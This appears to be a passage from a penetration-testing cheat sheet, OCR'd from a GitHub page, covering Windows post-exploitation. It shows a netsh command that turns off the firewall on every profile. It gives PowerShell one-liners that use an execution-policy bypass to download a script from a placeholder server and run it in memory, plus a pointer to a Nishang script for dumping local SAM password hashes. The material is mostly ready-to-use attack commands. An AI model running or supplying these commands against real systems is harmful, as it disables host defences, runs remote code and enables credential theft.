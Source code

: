 	PS C:\Users\testuser\Desktop> netsh advfirewall show allprofiles state

	Domain Profile Settings:
	----------------------------------------------------------------------
	State                                 ON

	Private Profile Settings:
	----------------------------------------------------------------------
	State                                 ON

	Public Profile Settings:
	----------------------------------------------------------------------
	State                                 ON
	Ok.

Disable firewall

	PS C:\Users\testuser\Desktop> netsh advfirewall set allprofiles state off
	Ok.
	
	PS C:\Users\testuser\Desktop> netsh advfirewall show allprofiles state
	Domain Profile Settings:
	----------------------------------------------------------------------
	State                                 OFF

	Private Profile Settings:
	----------------------------------------------------------------------
	State                                 OFF

	Public Profile Settings:
	----------------------------------------------------------------------
	State                                 OFF
	Ok.

# Powershell Kungfu

## Powershell Download

There is nothing on disk in this option

	powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://server/file.ps1')|iex"

PowerShell  one liner download (any version)

	(New-Object System.Net.WebClient).DownloadFile("http://server/file.ps1", "file.ps1")  

PowerShell  one liner download (4.0 & 5.0)

	Invoke-WebRequest "http://server/file.ps1" -OutFile "file.ps1"  


## Read Local Sam Hashes

Download script from here : https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1
